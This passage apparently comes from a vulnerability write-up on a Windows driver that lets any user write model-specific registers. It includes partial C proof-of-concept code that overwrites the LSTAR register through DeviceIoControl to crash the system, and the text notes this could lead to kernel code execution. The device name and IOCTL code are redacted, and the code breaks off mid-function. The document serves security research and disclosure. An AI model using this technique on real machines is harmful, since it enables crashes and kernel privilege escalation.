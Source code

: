 It's important to note that the content of the input buffer could originate from an unprivileged user, but there are no access-control, nor content-validation checks. This implies that anyone can interact with the driver and potentially alter the LSTAR value, thereby gaining kernel-level code execution.  

# <a name="9_vulnerability_verification"></a> 9. Verifying the vulnerability  
Verifying this vulnerability is relatively straightforward, and the following code demonstrates it. Just define the data structure and pass it to the driver by calling *DeviceIoControl*{: style="color: LightGreen"} with the appropriate IOCTL code. Set the MSR index to LSTAR (*0xc0000082*{: style="color: LightSalmon"}) and the value to be assigned as *0xffffffffffffffff*{: style="color: LightSalmon"}.  

Running this program will make Windows BSOD. The reason for this crash is that upon the next system call execution, the CPU attempts to jump to the invalid address of *0xffffffffffffffff*{: style="color: LightSalmon"}.  

```c
#define DEVICE_NAME_W L"XXXXXXXX"
#define IOCTL_WRMSR 0xXXXXXX

typedef struct DRIVER_STRUCT {
	DWORD Affinity;
	DWORD MsrIndex;
	DWORD64 Value;
}WRMSR_STRUCT, * PWRMSR_STRUCT;

HANDLE hDevice = NULL;
WCHAR* DevicePath = NULL;

BOOL OpenDriverDevice() {
	DevicePath = (LPWSTR)malloc((MAX_PATH + 1) * sizeof(WCHAR));
	swprintf_s(DevicePath, MAX_PATH, L"\\\\.\\%ws", DEVICE_NAME_W);
	hDevice = CreateFileW(DevicePath, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	return TRUE;
}

void CloseDriverDevice() {
	if (DevicePath) {
		free(DevicePath);
	}
	if (hDevice) {
		CloseHandle(hDevice);
	}
}

BOOL WriteMSR(DWORD MsrIndex, DWORD64 Value) {
	WRMSR_STRUCT wrmsr;
	HANDLE hProcess = NULL;
	DWORD_PTR ProcessAffinityMask = 0;
	DWORD_PTR SystemAffinityMask = 0;
	BYTE buffer[1024] = { 0 };
	DWORD bytesReturned;

	ZeroMemory(&wrmsr, sizeof(wrmsr));

	hProcess = GetCurrentProcess();
	GetProcessAffinityMask(hProcess, &ProcessAffinityMask, &SystemAffinityMask);

	wrmsr.Affinity = (DWORD)SystemAffinityMask;
	wrmsr.MsrIndex = MsrIndex;
	wrmsr.Value = Value;
```